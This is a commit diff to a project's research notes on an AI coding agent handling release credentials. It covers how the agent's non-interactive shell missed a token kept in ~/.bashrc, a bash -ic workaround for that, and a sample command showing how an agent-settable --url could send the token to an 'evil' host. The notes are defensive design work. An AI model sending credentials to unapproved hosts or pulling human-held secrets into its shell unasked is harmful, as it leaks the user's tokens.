

Before and after one commit to bjornregnell/genscalator, a Markdown page: research/wr-data/genscalator-self-dev.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
wr-data: token-wiring findings — human-env secret invisible to non-interactive agent shell (relaunch-to-inherit > bash -ic), + token-exfil-via-url safe-by-design rule

```diff
--- a/research/wr-data/genscalator-self-dev.md
+++ b/research/wr-data/genscalator-self-dev.md
@@ -23,6 +23,37 @@ an allowed command (no shell), checks exit/stdout/stderr, and prints PASS/FAIL.
 the `echo`+`;`+`$?` bundle is now replaced by `tt verify --exit 0 --out … -- <cmd>`. The friction event →
 tool loop, end to end.
 
+### Wiring a real token — two findings (2026-07-03, dogfooding `tt forge` to cut the v0.8.0 release)
+
+**Finding A — a human-set env secret is INVISIBLE to the agent's non-interactive shell.** BR's Codeberg
+token lives in `~/.bashrc` as `GENSCALATOR_CODEBERG_TOKEN`. The agent's Bash tool runs a **non-interactive**
+shell, and Ubuntu's stock `.bashrc` starts with an interactive-guard (`case $- in *i*) ;; *) return;;`) that
+`return`s *before* the export — so the var was simply **absent**, and `tt forge` correctly refused. Workaround
+that worked: wrap the call in **`bash -ic '…'`** (force interactive → `.bashrc` sources → export runs), token
+never touching the command line. **Insight:** the `configInArgsNotEnv` trust-boundary (human-only secrets in
+env) has a *delivery gap* — the agent's default shell may not load the human's env. This is a **coupled-system
+substrate** issue (the secret is on the substrate, but not on the layer the agent's shell reads). **Root
+cause here:** the export was added to `~/.bashrc` *after* the `claude` process launched — env is captured at
+process start, so a live process never sees a later `.bashrc` edit. Options, cleanest first:
+(a) **PREFERRED — relaunch the agent from an env that already carries the secret:** exit + `claude --resume`
+from a terminal where the export has run; the agent process inherits it and ALL child Bash shells inherit it
+for free (no guard issue, no per-call trick). Env *inheritance* beats per-call sourcing. (b) per-call
+**`bash -ic '…'`** (force interactive → `.bashrc` sources → export runs) — the in-session workaround when
+relaunching isn't worth it (what we used tonight). (c) human exports the secret above the interactive-guard
+or in a profile the agent's non-interactive shell loads. Candidate: an AGENTS/tool note on "human-env secrets
++ the non-interactive-shell gap → relaunch to inherit, or `bash -ic` in a pinch."
+
+**Finding B — a real credential exposed a safe-by-design hole: token exfil via an agent-settable `--url`.**
+Once a token flows, `tt forge release-create <repo> <tag> --url https://evil` would POST that token as an auth
+header to an attacker host. Fix (committed `aa9eadf`): the token is read ONLY from a **fixed** set of env-var
+names (`GENSCALATOR_CODEBERG_TOKEN`, `CODEBERG_TOKEN`, `FORGE_TOKEN`) — *not* an agent-nameable var — AND a
+**trusted-host guard** pins the destination (default `codeberg.org`, human-extends via env `TT_FORGE_HOSTS`).
+**General rule for any tokened tool:** a credential-bearing effectful tool has TWO exfil surfaces beyond the
+token *source* — (1) *which* secret (the env-var name) and (2) *where* it is sent (the host). Both must be
+**human-pinned, never agent-controllable**. (verify pinned the executable; forge must pin the secret-name AND
+the destination host.) — Dogfood note: the release itself was cut with this very tool → the curl-reflex →
+`tt forge` WR-TOOL loop is closed end-to-end.
+
 ### Permission-model observations — the guard calibrating *well* (2026-07-03, BR)
 Two positive data points (not friction — evidence the confirmation model is well-placed, the flip side of the CF hazard):
 - **Version/capability probes (`gh --version`, `tea --version`) should be safe** — read-only, no side effects, just capability detection. Candidate: **allowlist the *specific* binaries we probe** (`gh`, `tea`, `scala-cli`, `scalex`, `tt`) for `--version`/`--help`. CAVEAT: a blanket `Bash(* --version)` is **not** strictly safe — it still *executes an arbitrary binary*, and a malicious `foo` can ignore `--version` and do anything. So narrow per-binary probe entries, not a universal wildcard. (Safe-by-design principle: the *rule* must be provably safe, not just the intended call — same lesson as the curl entry below.)
```
